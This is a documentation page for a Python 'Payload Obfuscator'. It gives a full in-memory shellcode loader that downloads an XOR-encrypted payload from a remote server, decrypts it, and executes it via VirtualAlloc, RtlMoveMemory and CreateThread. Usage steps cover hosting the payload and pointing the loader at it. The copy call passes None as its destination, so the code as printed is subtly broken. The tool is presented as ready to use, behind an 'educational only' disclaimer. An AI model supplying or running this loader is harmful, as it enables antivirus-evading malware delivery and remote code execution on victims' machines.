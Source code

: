 ```yaml
---
description: >-
  Python script that downloads XOR-encrypted payloads, decrypts them at runtime,
  and executes them directly in memory via Windows API calls.
---
```


# Payload Obfuscator

Check it out - [payload\_obfuscator.py](payload_obfuscator.py)

<details>

<summary>payload_obfuscator.py</summary>

```python
import requests
import ctypes


def xor_decrypt(data, key):
    return bytes([b ^ key for b in data])


# Download the encrypted shellcode
url = '<ip>/<payload-name>'
response = requests.get(url, allow_redirects=True)

if response.status_code == 200:
    print("Encrypted shellcode downloaded successfully")
    encrypted_shellcode = response.content

else:
    print("Failed to download shellcode")
    exit(0)

# Decrypt shellcode
key = 0x41
shellcode = xor_decrypt(encrypted_shellcode, key)

# Allocate memory
ptr = ctypes.windll.kernel32.VirtualAlloc(None, len(shellcode), 0x3000, 0x40)

# Copy the shellcode into the memory
ctypes.windll.kernel32.RtlMoveMemory(None, shellcode, len(shellcode))

# Execute shellcode
ht = ctypes.windll.kernel32.CreateThread(None, 0, ptr, None, 0, None)

ctypes.windll.kernel32.WaitForSingleObject(ht, -1)

```

</details>

#### Features

* **Payload Encryption** – Uses XOR-based encryption to protect payloads in transit.
* **Downloader** – Retrieves the encrypted payload from a remote HTTP server.
* **Decryption at Runtime** – Decrypts payloads only in memory, never writing them to disk.
* **Windows API Integration** – Leverages `VirtualAlloc`, `RtlMoveMemory`, and `CreateThread` through Python’s `ctypes`.
* **Memory-Only Execution** – Executes the payload directly in allocated memory.

***

#### Requirements

* **Operating System**: Windows (needed for Windows API calls through `ctypes`)
* **Python Version**: Python 3.8 or later
* **Libraries**:
  * `requests` → for downloading the encrypted payload
  * `ctypes` → comes built-in with Python, used for calling Windows API functions

***

#### Installation

Before running the project, install the required library using:

```
pip install requests
```

***

#### Setup and Usage

1. **Prepare the Encrypted Payload**
   * Encrypt your payload using the same XOR key defined in the script.
   * Save it as `encrypted_shellcode.bin`.
2. **Start a Local HTTP Server**
   * Place the encrypted payload in a directory.
   *   Start a Python HTTP server to host it:

       ```
       python -m http.server 8000
       ```
3. **Configure the Script**
   * Update the `url` variable inside `encrypt_downloader.py` with the server’s IP address and port.
   *   Example:

       ```
       url = 'http://192.168.31.230:8000/encrypted_shellcode.bin'
       ```
4. **Run the Script**
   *   Execute the script on the Windows system:

       ```
       python encrypt_downloader.py
       ```
5. **Observe Execution**
   * The script downloads, decrypts, and executes the payload directly in memory.

***

#### Disclaimer

This tool is intended for educational and ethical testing purposes only.\
Do **not** use it on networks or systems you don’t own or have explicit permission to test.
